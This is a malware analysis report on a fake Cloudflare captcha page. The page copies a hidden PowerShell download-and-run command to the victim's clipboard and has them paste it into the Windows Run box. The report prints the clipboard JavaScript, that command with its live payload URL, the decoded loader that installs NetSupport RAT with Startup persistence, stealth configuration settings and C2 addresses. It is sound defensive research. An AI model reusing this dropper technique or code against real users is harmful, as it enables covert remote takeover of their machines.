


### Copy & Paste malware dropper

The record on URLAbuse is:

```json
{
  "id": 493186, 
  "url": "https://mondossierrenov.com/challenge.html", 
  "discovery": "2025-08-22 14:40:15", 
  "added": "2025-08-23 09:03:51", 
  "target": "#Malware_downloader", 
  "reporter": "VERIFROM", 
  "AbuseType": "phishing", 
  "UUID": "248a4d33325e29fb8602d83298c85153"
}
```
### Behaviour

When you open the URL, you'll see the cloudflare captcha page. However, this is actually not a cloudflare captcha but just an HTML page simulating the CF captcha:





After checking the box, the following JS code is executed:

```javascript
checkbox.addEventListener("click", function() {
    smartCopy(command);
    
    document.querySelectorAll(".step1").forEach(el => el.style.display = "none");
    document.querySelectorAll(".step2").forEach(el => el.style.display = "block");
    
    const spinner = document.getElementById("spinner");
    if (spinner) {
        spinner.style.visibility = "visible";
        spinner.style.display = "block";
    }
    
    const checkboxWindow = document.getElementById("checkbox-window");
    const verifyWindow = document.getElementById("verify-window");
    const verifyButton = document.getElementById("verify-button");
    
    setTimeout(() => {
        if (checkboxWindow) {
            checkboxWindow.style.width = "530px";
            checkboxWindow.style.height = "auto";
        }
        if (verifyWindow) verifyWindow.classList.add("active");
        if (verifyButton) {
            verifyButton.disabled = true;
            verifyButton.style.opacity = "0.6";
            verifyButton.style.cursor = "not-allowed";
            setTimeout(() => {
                verifyButton.disabled = false;
                verifyButton.style.opacity = "1";
                verifyButton.style.cursor = "pointer";
                verifyButton.style.transition = "all 0.3s ease";
            }, 25000);
        }
    }, 500);
});
```
which execute the smartCopy(command) function:

```javascript
async function smartCopy(text) {
  try {
      if (navigator.clipboard && window.isSecureContext) {
          await navigator.clipboard.writeText(text);
      } else {
          const textArea = document.createElement("textarea");
          textArea.value = text;
          textArea.style.position = "fixed";
          textArea.style.opacity = "0";
          textArea.style.left = "-9999px";
          document.body.appendChild(textArea);
          textArea.focus();
          textArea.select();
          document.execCommand("copy");
          document.body.removeChild(textArea);
      }
  } catch (err) {
      console.error("Copy failed:", err);
  }
}
const command = `powershell  -w h -NoP -c "$u='http://216.245.184.93/bdA.lim';$p=\\"$env:USERPROFILE\\Documents\\m.ps1\\";(New-Object Net.WebClient).DownloadFile($u,$p);powershell -w h -ep bypass -f $p"`;
```
This function will copy the content of the command string into the clipboard and show the users the following page:

<p style="center">

</p>

Here, the attacker asks the user to press "window button + R" (to open Windows Run) and then press CTRL+v (to paste the malicious payload in the memory into run window) and press Enter.

In this way, the powershell command will be executed which will download a malicious payload from:

**http://216[.]245[.]184[.]93/bdA.lim**

The malicious payload is a 9.3 MB of text file which will be stored in C:\Users\<username>\Documents\m.ps1 directory in the victim's machine and will be executed by powershell -w h -ep bypass -f $p command (hidden mode and without any security restrictions).

The payload can be downloaded  (password: infected)

Looking at the payload, it's a long powershell script as follows:

```powershell
$dOqYBoc=@("eyJmaWxlcyI6W3sibmFtZSI6IkF1ZGlvQ2VnFRQUFNQUFBQUVBQUFBLy84QUFMZ0FBQUFBQUFBQV....
# the variable is too long that I only showed the first and last few bytes.
.
.
.
.
.
...tpNnRRWmVNNjlGdndXU1lPSXpRWmFpUnFTTnVRQWhibnlqNm51TnhpbUcvYzdGcnYjcUxxQUFBQUFBPT0ifV19") -join '';

$BBrHzANGDt=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($dOqYBoc));

$OqrINjyv=$BBrHzANGDt | ConvertFrom-Json;

$wcJtpsq='C:\Users\Public\YoaIXhwsHe';

if(-not (Test-Path $wcJtpsq)){
  New-Item -ItemType Directory -Path $wcJtpsq | Out-Null
};

(Get-Item $wcJtpsq).Attributes = 'Hidden, System';

foreach($RzBpviQqp in $OqrINjyv.files){;
  $eStqaRe=Join-Path $wcJtpsq $RzBpviQqp.name;
  [IO.File]::WriteAllBytes($eStqaRe,[Convert]::FromBase64String($RzBpviQqp.b64));
};

$VMzOhOBuxJ=Join-Path $wcJtpsq 'client32.exe';

$FWCRjKcLQ="C:\\Windows\\System32\\imageres.dll,102";

$UQRiDaTYYO=Join-Path $env:AppData 'Microsoft\Windows\Start Menu\Programs\Startup';

if(-not (Test-Path $UQRiDaTYYO)){
  New-Item -ItemType Directory -Path $UQRiDaTYYO | Out-Null
};

$dXxcdksQs=Join-Path $UQRiDaTYYO 'client32.lnk';

$OggNBYgS=New-Object -ComObject WScript.Shell;

$EWGigdv=$OggNBYgS.CreateShortcut($dXxcdksQs);

$EWGigdv.TargetPath=$VMzOhOBuxJ;

$EWGigdv.WorkingDirectory=(Split-Path $VMzOhOBuxJ);

$EWGigdv.IconLocation=$FWCRjKcLQ;$EWGigdv.Save();
$exePath = ${VMzOhOBuxJ};
$exeDir  = Split-Path -Parent $exePath;
$cmdPath = Join-Path $env:TEMP ("run_after_delay_" + [guid]::NewGuid().ToString() + ".cmd");
$cmdLines = @("explorer.exe `"$exePath`"");
Set-Content -Path $cmdPath -Value $cmdLines -Encoding ASCII;Start-Sleep -Seconds 60;& cmd.exe /c "$cmdPath";
Remove-Item $cmdPath -Force -ErrorAction SilentlyContinue
```
The code is doing the following:

1. decode the base64-encoded string stored in `$dOqYBoc` variable.
2. JSON-decode the string from the last step
3. Create a directory `C:\Users\Public\YoaIXhwsHe` and set its attributes to *hidden* and *system*
4. Read the JSON structure and extract files into the created directory.

You can just simply extract the encoded payload using the following bash command:

```bash
cat bdA.lim | grep -E 'eyJmaWxlcyI6W3sibm.*QUFBQUFBPT0ifV19' -o > extraction.txt
```

And decode it using:

```bash
cat extraction.txt | base64 -d -i > decoded_base64.txt
```

Using `jq` I can see that there is only one key in the `decoded_base64.txt` file (using `cat decoded_base64.txt | jq 'keys'`) and it's an array.

each member of the array has **b64** and **name** keys:

```bash
cat decoded_base64.txt | jq .files[0] -rc | jq 'keys'
```
Having the small python script, we can manually extract all the files:

```python
import os
import sys
import base64
import json

if __name__ == "__main__":
    # create a payload directory in the current directory
    current_dir = os.path.abspath(os.path.dirname(__file__))
    
    # create the directory called 'payload'
    os.mkdir("payloads")

    # let's extract the file assuming the json file 
    # is called decoded_base64.txt in the same directory as this file

    # I hate with...statement
    f = open("{}/decoded_base64.txt".format(current_dir))
    data = f.read()
    f.close()
    
    data = json.loads(data)

    files = data["files"]

    for f in files:
        print("decoding.....{}...".format(f["name"]))
        file_name = f["name"]
        file_data = f["b64"]
        
        fw = open("{}/payloads/{}".format(current_dir, file_name), "wb")
        fw.write(base64.b64decode(file_data))
        fw.close()
    # end for
    print("DONE!")
# end driver
```
The python script will extract 12 files:

```bash
decoding.....AudioCapture.dll...
decoding.....client32.exe...
decoding.....client32.ini...
decoding.....HTCTL32.DLL...
decoding.....msvcr100.dll...
decoding.....nskbfltr.inf...
decoding.....NSM.LIC...
decoding.....nsm_vpro.ini...
decoding.....pcicapi.dll...
decoding.....PCICHEK.DLL...
decoding.....PCICL32.DLL...
decoding.....remcmdstub.exe...
decoding.....TCCTL32.DLL...
DONE!
```

Now seeing the names of the files, we know what we are dealing with: Netsupport tool (you can read Mcafee ~[post](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/beneath-the-surface-how-hackers-turn-netsupport-against-users/) if you are not familiar with NetSupport)

The only interesting part of the NetSupport tool is the `client32.ini` file in which the attacker can specify the configurations.

Opening the file, here is the list of (probably) interesting configurations:

1. quiet=1 (Suppresses license prompts/warnings.)
2. AlwaysOnTop=0 (The client UI is not forced to stay on top)
3. AutoICFConfig=1 (Automatically configures Windows Internet Connection Firewall)
4. DisableChat=1 (Prevents the user from opening chat with controller)
5. DisableChatMenu=1 (Hides chat option in the menu)
6. DisableCloseApps=1 (Prevents closing applications through UI)
7. HideWhenIdle=1 → Hides the client icon when idle
8. silent=1 → Runs silently without user notifications.
9. SKMode=1 → "Stealth/Keyboard" mode — hides client from system tray/UI.
10. SysTray=0 → Do not show an icon in the system tray
11. GatewayAddress=**141.98.11.106:443** (Connect to this remote server)
12. Port=**443** (port to connect to)

At the time of writing this report, the IP address has been reported 498 times in AbuseIPDB for different malicious activities like Bruteforcing SSH services and scanning WordPress URLs.

#### Domain name and IP info

- domain: mondossierrenov.com
- Creation Date: 2025-08-18T10:09:21.000Z
- Updated date: 2025-08-18T10:09:22.000Z
- Expiration Date: 2026-08-18T10:09:21.000Z
- Registrar: IONOS SE
- Registrar IANA ID: 83
- Nameserver: ns1107.ui-dns.org
- Nameserver: ns1061.ui-dns.de
- Nameserver: ns1121.ui-dns.biz
- Nameserver: ns1061.ui-dns.com
- A record: 23.227.194.170

- IP Address of the domain name: 23.227.194.170
- hostname": "23-227-194-170.static.hvvc.us
- city: Chicago
- region: Illinois
- country: US

- IP address of the Command and control: 141.98.11.106
- hostname: srv-141-98-11-106.serveroffer.net
- city: Vilnius
- region: Vilnius
- country: LT


